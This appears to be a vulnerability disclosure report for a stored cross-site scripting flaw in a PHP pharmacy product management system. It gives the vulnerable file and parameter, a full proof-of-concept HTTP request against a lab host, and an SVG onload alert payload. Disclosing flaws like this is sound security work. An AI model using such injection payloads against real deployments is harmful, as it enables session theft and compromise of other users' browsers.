 The Web-based Pharmacy Product Management System has an xss vulnerability that can be exploited by an attacker to affect program functionality when authenticated.



Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html



The vulnerability is located in the /add-category.php file, where the txtcategory_name content that receives a POST is assigned to category_name and saved directly to the database. There is no restriction on the input content. When an administrator or other user views the category list, the value is then directly output to the HTML page, resulting in an XSS attack.

![image-20250407115228982](images/image-20250407115228982.png)





Vulnerability verification：

```
POST /product_expiry/add-category.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 69
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/add-category.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=73mpo1nrj4ta0rpehf7o8usjc0
Connection: close

txtcategory_name=%22%3E%3Csvg+onload%3Dalert%282%29%3E%2F%2F&btnsave=
```

payload：

```
"><svg onload=alert(2)>//
```

![image-20250407114144533](images/image-20250407114144533.png)

![image-20250407114149607](images/image-20250407114149607.png)









